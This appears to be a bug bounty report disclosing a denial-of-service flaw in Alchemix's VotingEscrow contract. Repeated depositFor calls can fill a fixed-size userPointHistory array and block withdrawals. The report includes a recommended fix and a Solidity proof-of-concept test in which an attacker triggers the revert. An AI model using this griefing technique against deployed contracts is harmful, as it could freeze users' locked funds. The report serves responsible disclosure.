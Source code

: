 
# DOS of withdrawals through filling the userPointHistory

Submitted on May 8th 2024 at 07:48:35 UTC by @NinetyNineCrits for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30922

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

While not very feasible, it is technically possible to DOS withdraws associated with a tokenId, by doing a large amount of deposits for said tokenId.

## Vulnerability Details

Unlike Velodrome, every `_checkpoint` call with an associated tokenId writes a new userPoint:

```solidity
    uint256 userEpoch = userPointEpoch[_tokenId] + 1;

    userPointEpoch[_tokenId] = userEpoch;
    newPoint.ts = block.timestamp;
    newPoint.blk = block.number;
    userPointHistory[_tokenId][userEpoch] = newPoint;
```

This opens up the door to a DOS, as the number of possible user points is limited:

```solidity
mapping(uint256 => Point[1000000000]) public userPointHistory;
```

Any user can invoke `_checkpoint` for any tokenId by using `depositFor`.

Naturally 1 Billion is a very large number that somewhats limits the feasability and likelihood of this attack (but does not mean a billion transactions need to be made, as the deposits could be looped through a contract). Even though the impact could be categorized as a `permanent freeze`, the limitations do not justify a higher severity than medium imo, hence `griefing` seems to be the appropriate impact.

## Impact Details
DOS of any tokenId, but associated with very high costs of attack.

## Recommendations
Consider going back to Velodromes approach of accounting, which limits the addition of points to 1 per block:

```solidity
uint256 userEpoch = userPointEpoch[_tokenId];
if (userEpoch != 0 && _userPointHistory[_tokenId][userEpoch].ts == block.timestamp) {
    _userPointHistory[_tokenId][userEpoch] = uNew;
} else {
    userPointEpoch[_tokenId] = ++userEpoch;
    _userPointHistory[_tokenId][userEpoch] = uNew;
}
```

This would also add a time constraint on the attack, which would require 380 years, assuming a a block each 12 seconds.


## Proof of Concept

```solidity
    //@note requires modifying `mapping(uint256 => Point[1000000000]) public userPointHistory;` in VotingEscrow to a size of 5
    function testMinhDOSWithdraw() public {
        address user = address(0x12345);
        address attacker = address(0x6789);
        deal(bpt, user, 10e18);
        deal(bpt, attacker, 10);

        hevm.startPrank(user);
        IERC20(bpt).approve(address(veALCX), 10e18);
        uint256 tokenId = veALCX.createLock(10e18, 2 weeks, false);
        hevm.stopPrank();

        hevm.startPrank(attacker);
        IERC20(bpt).approve(address(veALCX), 10);
        veALCX.depositFor(tokenId, 1);
        veALCX.depositFor(tokenId, 1);
        veALCX.depositFor(tokenId, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + 2 weeks);

        hevm.startPrank(user);
        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + 2 weeks);

        veALCX.withdraw(tokenId);
    }
```

This test will revert on the `withdraw` call with:

```solidity
[FAIL. Reason: Index out of bounds]
```